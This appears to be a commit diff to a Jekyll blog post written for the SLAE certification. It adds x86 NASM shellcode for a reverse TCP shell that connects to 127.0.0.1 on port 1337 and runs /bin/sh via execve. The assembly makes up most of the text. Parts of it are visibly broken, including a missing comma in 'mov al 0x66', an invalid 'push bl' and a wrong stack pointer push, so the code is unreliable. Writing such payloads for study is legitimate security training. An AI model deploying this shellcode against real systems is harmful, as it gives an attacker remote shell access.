

Before and after one commit to Minfanger101/sm00v.github.io, a Jekyll site: the page built from _posts/2019-10-25-assignment_2.md, in a window 1280 px wide and 1400 px high, scrolled down 5771 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; nearby versions of some CDN libraries; some of the changed text lies outside the part shown.

Commit message:
blog update

````diff
--- a/_posts/2019-10-25-assignment_2.md
+++ b/_posts/2019-10-25-assignment_2.md
@@ -113,6 +113,7 @@ _start:		;
 
 xor ebx, ebx	; Zero out registers before usage to avoid a logic error
 xor ecx, ecx	;
+xor edx, edx	;
 mul cx		; ax = ax * cx (0)
 
 ;int socketcall(int call, unsigned long *args)
@@ -162,21 +163,63 @@ jnz sockfd_func ; loop back to sockfd_func if not zero
 ## Connect
 
 ```nasm
+;int socketcall(int call, unsigned long *args)
 ;int connect(int sockfd, const struct sockaddr *addr, socklen_t addrlen)
 ;
 ;syscall number: 102 (0x66)
 ;Arguement Values
 ;EAX -> 0x66 socketcall
-;EBX -> ESP pointer *args
-;ECX -> Addrlen
-;STACK *args Values:
-;3rd push ->
+;EBX -> 0x3 connect
+;ECX -> ESP pointer *args
+;IP Socket Address Structure:
+;*addr = memory address of structure containing:
+;  - sin_family: 0x0002 (AF_INET/IPv4)
+;  - sin_port: 0x0539 (1337)
+;  - sin_addr.s_addr: 0x0100007f (127.0.0.1)
+;addrlen = 0x10 (16/sizeof(sockaddr_in))
 ;
 
-mov al 0x66	; socketcall wrapper
-mov ebx, esp	; move *args to ebp
-mov ecx,  	;
+mov al 0x66	    ; socketcall wrapper
+		    ; bl is already 0x3 (connect) from sockfd
 
+mov edi, 0xffffffff ; 255.255.255.255
+mov ecx, 0xfeffff80 ; 128.255.255.254
+xor ecx, edi        ; 0x0100007f = 127.0.0.1
+
+push ecx	    ; sin_addr.s_addr 127.0.0.1
+push word 0x0539    ; sin_port 1337
+push word 0x0002    ; sin_family 0x2
+mov ecx, esp	    ; move connect *args to ecx. this also points to IP Socket Address Struct
+
+push 0x10	    ; addrlen (socket)
+push esp	    ; pointer to IP Struct
+push bl	  	    ; sockfd
+
+int 0x80	    ; interrupt
+```
+
+## Execve
+
+```nasm
+; EXECVE SHELL
+; int execve(const char *filename, char *const argv[], char *const envp[]);
+; syscall number: 11 (0xb)
+;
+; Argument Values:
+; *filename = Memory address of a null terminated string "/bin/sh"
+; *argv[] = [*"/bin/sh", 0x00000000]
+; *envp = NULL
+;
+
+push edx	    	; delimiting NULL for pathname; EDX is NULL for envp[]
+push dword 0x68732f2f   ; push / / s h
+push dword 0x6e69622f   ; push / b i n
+mov ebx, esp            ; Store pointer to "/bin/sh" in ebx
+push ecx                ; Push NULL
+push ebx                ; Push *filename
+mov ecx, esp            ; Store memory address pointing to memory address of "/bin/sh"
+mov al, 0xb             ; execve call
+int 0x80                ; interrupt
 ```
 
 _This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:_
````
